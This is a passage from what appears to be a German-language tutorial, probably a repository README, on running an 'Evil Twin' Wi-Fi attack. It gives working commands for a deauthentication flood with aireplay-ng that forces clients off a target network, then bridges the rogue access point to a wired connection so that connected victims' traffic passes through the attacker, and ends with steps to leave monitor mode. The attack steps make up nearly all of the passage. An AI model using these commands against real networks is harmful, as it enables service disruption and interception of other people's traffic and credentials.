 - Der Evil Twin ist jetzt gestartet, allerdings wird noch keine Internetverbindung zur Verfügung gestellt!


- Neues Terminal Fenster öffnen:
```
$aireplay-ng --deauth 100 -a *BSSID* wlan0mon
```

(100 = Anzahl der Aufforderung sich nicht mit dem originalen Netzwerk zu verbinden.)


- Internetzugriff schaffen:
```
$ iwconfig
```
```
$ sudo brctl addbr evil
```
```
$ sudo brctl addif evil eth0 	(eth0 = die erste neue verbindung, die bei iwconfig angezeigt wird)
```
```
$ iwconfig (nun müsste auch ein "evil" zu sehen sein)
```


- "evil" mit "at0" verbinden & IP einstellen:
```
$ sudo brctl addif evil at0
```
```
$ sudo ifconfig eth0 0.0.0.0 up
```
```
$ sudo ifconfig at0 0.0.0.0 up
```
```
$ sudo ifconfig evil up
```

```
$ sudo dhclient evil oder $ sudo dhclient3 evil (ausprobieren welches funktioniert)
```

- Client (Handy, Tablet, PC, etc.) verbinden, um Pakete zu senden und erfologreich sein zu können.


----------------------------------------------------------------------------------------------------------------


## stop monitor mode:

```
$ iwconfig
```
```
$ sudo airmon-ng stop wlan0mon
```

- Sollte nach dem Deaktivieren keine Möglichkeit mehr bestehen, sich mit einem WLAN zu verbinden, muss das Gerät ggf. neu gestartet werden.

